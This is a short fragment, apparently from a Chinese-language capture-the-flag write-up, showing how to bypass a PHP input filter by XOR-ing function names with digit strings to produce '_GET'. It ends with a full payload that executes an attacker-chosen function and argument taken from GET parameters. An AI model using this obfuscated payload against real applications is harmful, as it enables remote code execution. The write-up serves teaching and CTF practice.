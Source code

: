 -
- fuzz可得：
	- `"is_nan"^"64" === "_G"`
	- `"tan"^"15" === "ET"`
- 所以：`(is_nan^(6).(4)).(tan^(1).(5)) === "_GET"`
- 最终payload：`1;$pi=(is_nan^(6).(4)).(tan^(1).(5));${$pi}{1}(${$pi}{2})`